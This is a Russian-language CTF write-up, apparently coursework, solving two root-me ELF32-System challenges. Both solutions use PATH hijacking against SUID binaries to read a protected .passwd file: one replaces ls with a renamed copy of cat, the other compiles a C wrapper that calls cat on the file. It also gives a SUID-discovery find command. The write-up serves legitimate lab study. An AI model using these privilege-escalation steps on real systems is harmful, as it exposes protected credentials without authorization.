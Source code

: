 # Обязательная часть:
Прорешать задания с платформы root-me, получить флаги и написать writeup-ы.
## [https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
## Решение
**Цель задания**  Прочесть файл .passwd.
Основная идея в том, чтобы увидеть следующие особенности:
- SUID bit у ch11 в корне
- после прочтения исходного кода ch11.c  вспомнить, что можно провести замену исполняемой утилиты через переменную окружения $PATH согласно методичке.  

P.S. Вместо подмены утилиты ls на cat можно запустить шел с привилегированными правами, но это противоречит логике задания.

```
ls -lah # для общего поиска SUID можно применить команду find / -perm -u=s -type f 2>/dev/null
cat ch11.c # вывод исходного кода программы, чтобы обнаружить какую утилиты нужнно подменить
mkdir /tmp/bie # создание дирректории для хранения подменённого эксземпляра утилиты и задания её потом как папки для поиска утилит
cp /bin/cat /tmp/bie # копирование утилиты для вывода содержимого .passwd
mv /tmp/bie/cat /tmp/bie/ls # переименование утилиты для подмены утилиты ls на cat
export PATH=/tmp/bie:$PATH # добавление папки с подменённой утилиты в переменную окружения $PATH
./ch11 # запуск утилиты
```
![[Pasted image 20241005082040.png]]
## [https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)
## Решение
**Цель задания**  Прочесть файл .passwd.
Основная идея в том, чтобы увидеть следующие особенности:
- SUID bit у ch12 в корне
- После прочтения исходного кода ch12.c   понять что старый трюк через $PATH не сработает из-за аргументов. По методичке предлагается вместо замены утилиты применить подмену утилиты через программу обёртку, которая будет игнорировать ненужные аргументы.

P.S. Вместо подмены  ls с аргументами на cat можно запустить шел с привилегированными правами через программу обёртку, но это противоречит логике задания.
```
ls -lah # для общего поиска SUID можно применить команду find / -perm -u=s -type f 2>/dev/null
cat ch12.c # вывод исходного кода программы, чтобы обнаружить какую утилиты нужнно подменить
mkdir /tmp/bie # создание дирректории для хранения подменённого эксземпляра утилиты и задания её потом как папки для поиска утилит
```

```
nano /tmp/bie/ls.c #  напишем код для программы обёртки 
```

```
#include <stdlib.h>
#include <stdio.h>

int main(){

system("cat /challenge/app-script/ch12/.passwd");

return 0;
} 
```

```
cd /tmp/bie
gcc /tmp/bie/ls.c -o /tmp/bie/ls # компиляция обёртки для подмены в $PATH
export PATH=/tmp/bie:$PATH # добавление папки с подменённой утилиты в переменную окружения $PATH
cd ~
./ch12 # запуск утилиты
```
![[Pasted image 20241005105609.png]]

# По желанию:
## Linux PrivEsc Arena THM